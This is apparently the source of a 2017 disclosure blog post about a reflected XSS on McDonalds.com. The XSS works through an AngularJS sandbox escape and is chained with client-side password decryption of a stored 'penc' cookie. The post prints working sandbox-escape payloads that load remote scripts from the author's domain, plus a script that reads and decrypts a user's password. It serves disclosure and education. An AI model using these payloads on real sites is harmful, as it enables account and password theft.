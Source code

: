 ```yaml
---
title: Stealing passwords from McDonald's users
subtitle: Reflected XSS through AngularJS sandbox bypass causes password exposure of McDonald users.
description: By abusing an insecure cryptographic storage vulnerability and a reflected server cross-site-scripting vulnerability it is possible to steal and decrypt the password from a McDonald's user.
keywords: xss, cross-site, scripting, mcdonalds, password, vulnerability, stealing, angularjs
date: 2017-01-06 00:31:42
robots: index, follow
---
```


By abusing an insecure cryptographic storage vulnerability ({% customlink "https://www.owasp.org/index.php/Top_10_2007-Insecure_Cryptographic_Storage" %}) and a reflected server cross-site-scripting vulnerability ({% customlink "https://www.owasp.org/index.php/Top_10_2013-A3-Cross-Site_Scripting_(XSS)" %}) it is possible to steal and decrypt the password from a McDonald's user. Besides that, other personal details like the user's name, address & contact details can be stolen too.

### Proof of Concept

#### Reflected XSS through AngularJS sandbox escape
McDonalds.com contains a search page which reflects the value of the search parameter (`q`) in the source of the page. So when we search on for example `***********-test-reflected-test-***********`, the response will look like this:

{% raw %}
<div class="row img-carousel">
	<div class="col-md-12">
		{% endraw %}{% customlightbox "step-1" "search-value-test-preview.png" "Text on website" %}{% raw %}
		{% endraw %}{% customlightbox "step-1" "search-value-test-reflected.png" "Text in HTML" %}{% raw %}
	</div>
</div>
{% endraw %}

McDonald's uses AngularJS so we can try to print the unique scope ID using the search value. We can do this by changing the `q` parameter value to `{% raw %}{{$id}}{% endraw %}`. As we can see `{% raw %}{{$id}}{% endraw %}` gets converted to `9` the unique ID (monotonically increasing) of the AngularJS scope.

{% raw %}
<div class="row img-carousel">
	<div class="col-md-12">
		{% endraw %}{% customlightbox "step-2" "search-value-angular-id-preview.png" "Unique ID on website" %}{% raw %}
		{% endraw %}{% customlightbox "step-2" "search-value-angular-id-reflected.png" "Unique ID in HTML" %}{% raw %}
	</div>
</div>
{% endraw %}

Using `{% raw %}{{alert(1)}}{% endraw %}` as value wouldn't work because all AngularJS code is executed in a sandbox. However, the AngularJS sandbox isn't really safe. In fact, it shouldn't be trusted at all. It even got removed in version 1.6 ({% customlink "https://docs.angularjs.org/guide/security#sandbox-removal" %}) because it gave a false sense of security. PortSwigger created a nice blog post about escaping the AngularJS sandbox ({% customlink "http://blog.portswigger.net/2016/01/xss-without-html-client-side-template.html" %}).

We first need to find the AngularJS version of McDonalds.com. We can do this by executing `angular.version` in the console.

{% raw %}
<div class="row img-carousel">
	<div class="col-md-12">
		{% endraw %}{% customlightbox "step-3" "angular-version.png" "Angular version" %}{% raw %}
	</div>
</div>
{% endraw %}

The version is 1.5.3, so the sandbox escape we need is `{% raw %}{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=alert(1)');}}{% endraw %}`. We can use this sandbox escape as search value, which results in an alert.

{% raw %}
<div class="row img-carousel">
	<div class="col-md-12">
		{% endraw %}{% customlightbox "step-4" "alert-1-in-chrome.png" "Alert using AngularJS sandbox escape" %}{% raw %}
	</div>
</div>
{% endraw %}

We can even load external JavaScript files using the following sandbox escape, which results in the alert below.

`{% raw %}{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=$.getScript(`https://finnwea.com/snippets/external-alert.js`)');}}{% endraw %}`

The JavaScript can be loaded from another domain since McDonald's doesn't exclude it using the `Content-Security-Policy` header.

{% raw %}
<div class="row img-carousel">
	<div class="col-md-12">
		{% endraw %}{% customlightbox "step-5" "alert-external-in-chrome.png" "External domain alert using AngularJS sandbox escape" %}{% raw %}
	</div>
</div>
{% endraw %}

### Proof of Concept

#### Stealing the user's password
Another thing I noticed on McDonalds.com was their sign in page which contained a very special checkbox. Normally you can check "Remember me" when signing in, but the McDonald's sign in page gives us the option to remember the password.

{% raw %}
<div class="row img-carousel">
	<div class="col-md-12">
		{% endraw %}{% customlightbox "step-6" "mcdonalds-login-form.png" "Remember my password checkbox" %}{% raw %}
	</div>
</div>
{% endraw %}

I searched through all the JavaScript for the keyword `password` and I found some interesting code that decrypts the password.

{% raw %}
<div class="row img-carousel">
	<div class="col-md-12">
		{% endraw %}{% customlightbox "step-7" "source-search-password.png" "Source code search for `password`" %}{% raw %}
		{% endraw %}{% customlightbox "step-7" "cookie-pass-decrypt-source.png" "Source for decrypting the user's password" %}{% raw %}
	</div>
</div>
{% endraw %}

If there's one thing you shouldn't do, it's decrypting passwords client side (or even storing passwords using two-way encryption). I tried to run the code myself, and it worked!

{% raw %}
<div class="row img-carousel">
	<div class="col-md-12">
		{% endraw %}{% customlightbox "step-8" "decrypt-get-cookie-penc.png" "Decrypting my password using the console" %}{% raw %}
	</div>
</div>
{% endraw %}

The `penc` value is a cookie that is stored for a year. LOL!

{% raw %}
<div class="row img-carousel">
	<div class="col-md-12">
		{% endraw %}{% customlightbox "step-9" "penc-cookie.png" "The `penc` cookie that is stored for a year" %}{% raw %}
	</div>
</div>
{% endraw %}

McDonald's uses CryptoJS to encrypt and decrypt sensitive data. They use the same `key` and `iv` for every user, which means I only have to steal the `penc` cookie to decrypt someone's password.

{% raw %}
<div class="row img-carousel">
	<div class="col-md-12">
		{% endraw %}{% customlightbox "step-10" "encrypt-decrypt-source.png" "Encrypting and decrypting sensitive data using CryptoJS" %}{% raw %}
	</div>
</div>
{% endraw %}

I tried decrypting my password on the search page using a malicious search payload, but it didn't work. Since the AngularJS sandbox escape payload replaces the `charAt` method with the `join` method, the `getCookie` method failed. The `getCookie` method tries to trim whitespaces from cookie values by checking if `charAt(0)` is a whitespace. In the images below you can see `.charAt(0)` returns a string joined by `0` if executed on the search page.

{% raw %}
<div class="row img-carousel">
	<div class="col-md-12">
		{% endraw %}{% customlightbox "step-11" "char-at-fail.png" "The `charAt` method on the search page (fails)" %}{% raw %}
		{% endraw %}{% customlightbox "step-11" "char-at-success.png" "The `charAt` method on the homepage (success)`" %}{% raw %}
	</div>
</div>
{% endraw %}

I wrote some JavaScript that loads the homepage in an iframe and steals the cookie using that iframe. Since the payload is executed multiple times because of the sandbox escape, I keep track of the variable `xssIsExecuted`, so that the payload is only executed once.

{% highlightcode javascript %}
	if (!window.xssIsExecuted) {
	    window.xssIsExecuted = true;

	    var iframe = $('<iframe src="https://www.mcdonalds.com/us/en-us.html"></iframe>');
	    $('body').append(iframe);

	    iframe.on('load', function() {
	        var penc = iframe[0].contentWindow.getCookie('penc');
	        alert(iframe[0].contentWindow.decrypt(penc));
	    });
	}
{% endhighlightcode %}

We can now use the following sandbox escape, which results in my password in an alert box!

`{% raw %}{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=$.getScript(`https://finnwea.com/snippets/mcdonalds-password-stealer.js`)');}}{% endraw %}`

{% raw %}
<p></p>
<div class="row img-carousel">
	<div class="col-md-12">
		{% endraw %}{% customlightbox "step-12" "alert-my-password.png" "My password!" %}{% raw %}
	</div>
</div>
{% endraw %}

That was all pretty easy. I tried to contact McDonald's multiple times to report the issue, but unfortunately they didn't respond, which is why I decided to disclose the vulnerability.
